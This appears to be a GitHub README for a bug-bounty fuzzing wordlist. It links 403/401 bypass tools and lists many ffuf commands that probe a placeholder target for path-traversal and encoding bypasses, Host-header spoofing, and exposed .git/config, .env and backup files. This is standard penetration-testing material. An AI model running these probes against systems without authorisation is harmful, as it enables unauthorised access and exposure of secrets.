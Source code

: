 # bbFuzzing.txt

**bbFuzzing.txt** is a unique vocabulary that is 90% generated with OpenAI ChatGPT. 

Below are links to tools that allow you to bypass 401/403 status code. 

Tools for 403/401 bypass
1. [bypassfuzzer](https://github.com/intrudir/BypassFuzzer) by @intrudir
2. [bypass-url-parser](https://github.com/laluka/bypass-url-parser) by @TheLaluka
3. [dontgo403](https://github.com/devploit/dontgo403) by @devploit

There are also examples of how you can extend the fuzzing process to get more interesting results (proxy level misconfigurations, temporary files, etc.).

```
> ffuf -u target.com/FUZZ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ -H "Host: 127.0.0.1" -w bbFuzzing.txt
> ffuf -u target.com/FUZZ -H "Host: localhost" -w bbFuzzing.txt

> ffuf -u target.com/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/%3B/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/%2e/FUZZ/ -w bbFuzzing.txt

> ffuf -u target.com/.FUZZ -w bbFuzzing.txt
> ffuf -u target.com/%u002e%u002e/%u002e%u002e/FUZZ -w bbFuzzing.txt
> ffuf -u target.com/..%3B/FUZZ/ -w bbFuzzing.txt

> ffuf -u target.com/%2e%2e%2f/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/%2eFUZZ -w bbFuzzing.txt
> ffuf -u target.com/%2e/FUZZ/ -w bbFuzzing.txt

> ffuf -u target.com/_FUZZ -w bbFuzzing.tx
> ffuf -u target.com/FUZZ_ -w bbFuzzing.txt
> ffuf -u target.com/_FUZZ_ -w bbFuzzing.txt

> ffuf -u target.com/..;/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/..;/..;/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/../FUZZ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ..;/ -w bbFuzzing.txt

> ffuf -u target.com/FUZZ;/ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ# -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/~ -w bbFuzzing.txt

> ffuf -u target.com/!FUZZ -w bbFuzzing.txt
> ffuf -u target.com/#/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/-/FUZZ/ -w bbFuzzing.txt

> ffuf -u target.com/FUZZ.bkp -w bbFuzzing.txt
> ffuf -u target.com/FUZZ%20 -w bbFuzzing.txt
> ffuf -u target.com/FUZZ.<ext> -w bbFuzzing.txt

> ffuf -u target.com/FUZZ~ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/.git/config -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/.env -w bbFuzzing.txt

> ffuf -u target.com/FUZZ. -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/* -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/? -w bbFuzzing.txt

> ffuf -u target.com/FUZZ -recursive -w fuzzing.txt
> ffuf -u target.com/FUZZ -recursive -w fuzzing.txt -e .asp,.aspx,.ashx,.ash,.jsp,.jspx,.php,.js,.dll,.json,.bak,.bkp,.conf,.txt,.py,.zip,.tar.gz,.tar,.7z
> ffuf -u target.com/FUZZ?.css -w fuzzing.txt
```
